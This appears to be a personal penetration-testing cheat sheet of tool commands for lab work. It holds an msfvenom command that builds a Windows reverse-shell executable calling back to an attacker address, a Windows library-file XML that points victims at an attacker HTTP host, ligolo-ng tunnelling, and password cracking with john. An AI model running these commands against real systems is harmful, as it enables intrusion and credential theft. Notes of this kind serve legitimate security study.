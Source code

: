 # Tools
___!!MAKE SURE TO HAVE ENOUGH RESOURCES..!!___
## nmap
`sudo nmap -sC -sV -T4 -v -p- -oA 192.168.233.227 192.168.233.227` Full TCP scan with logging \
`sudo nmap -sU -T4 -v -p- 192.168.233.153 -oA nmap/192.168.233.153-UDP` Full UDP SCAN with logging

## gobuster
`gobuster dir -u http://192.168.233.153 -w /usr/share/wordlists/dirb/big.txt -t 5 --output gobuster/192.168.233.153` Gobuster dir scan

## curl
`curl`
- `-H "host: test.com"` add header, for testing vhosts\
- `--insecure` ignore certificate issues

## ssh
`ssh`
- `-R 1337:192.168.1.1:3389` Create listening port on the server forwarding to IP:3389\
- `-L 1337:192.168.1.1:3389` Create listening prot lon the local client forwarding to IP:3389

## SWAKS
Swiss Army Knife for SMTP\
- `--to mail@mail.com` Send to address
- `--server` Server to use

## Chisel
`chisel`
- `client` for client mode
- `server` for server mode
Note: issues with starting chisel client when using the pre-compiled version from Kali. Dowloaded release from github does work.\

## ExploitDB
`searchsploit -m XXXXX ` to "mirror" a vulnerability from ExploitDB

## msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.186 LPORT=1337 -f exe > rev.exe ` Create windows reverse shell executable

## ligolo-ng
releases for proxy and agent on Github: https://github.com/nicocha30/ligolo-ng

__Start proxy:__\
`sudo ip tuntap add user kali mode tun ligolo`\
`sudo ip link set ligolo up`

`./proxy -selfcert`

__Start ligolo agent:__\
`.\ligolo-agent.exe -connect xxx.xxx.xxx.xxx:11601 -ignore-cert`

__Setup tunnel over proxy:__\
`session` Select session\
`ifconfig` -- Show ip info\
`sudo ip route add 192.168.0.0/24 dev ligolo` Create route ( *In Linux itself* )  
`start` Start tunnel\

--Network is now reachable through proxy--

`listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp` Create a listener on the agent, listening on 0.0.0.0 port 1234 and forwarding to proxy host on port 4321
`listener_list` to show all listeners

## Other usefull resources:
https://crackstation.net/


## WIndows Library file exploit
**NOTE:** After executing windows **optimizes the file** which could make it **unusable** on another machine.
```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.177</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

## Cracking SSH keyphrase
`ssh2john sample.key > sample.hash`
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

## Cracking ZIP
`zip2john file.zip > zip.hash` Create hash file for zip archive  
`| cut -d ':' -f 2` To make a zip2john file suitable for Hashcat  


## Loop lookup users based on sid  
(Windows edit seq, start from 500, for linux from 1000)
```
for i in $(seq 1 100); do
    rpcclient -N -U "" 192.168.136.11 -c "lookupsids S-1-22-1-$i";
done
```

## Get user and domain sid 
`rpcclient lookupnames root/admin`

## Get scheduled taks info
`schtasks /query /TN taskname /XML`
`(get-scheduledtask taskname).actions`
`(get-scheduledtask taskname).triggers`
